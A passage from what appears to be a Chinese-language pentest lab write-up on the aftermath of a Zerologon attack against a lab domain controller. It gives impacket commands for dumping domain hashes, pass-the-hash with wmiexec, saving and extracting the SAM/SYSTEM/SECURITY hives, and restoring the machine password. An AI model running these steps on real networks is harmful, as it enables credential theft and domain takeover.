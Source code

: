 ```
Success! DC should now have the empty string as its machine password.
```



 [zerologo_impacket.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/zerologo_impacket.pcapng) 

![image-20201220154626164](/assets/img/image-20201220154626164.png)



```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ring2/ringdc-pc$@192.168.240.142
secretsdump.py -no-pass -just-dc ring2.com/ringdc-pc$@192.168.240.142

```



**清理环境**

SAM注册表里存的是用户账户HASH, SYSTEM注册表里存的是机器账户HASH, 两者都需要SECURITY注册表中的bootKey解密

```
> wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ad.test.com/Administrator@192.168.209.129
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
> reinstall_original_pw.py ringdc-pc 192.168.240.142 1ed14f438a76ab48b513b466d875734d
```
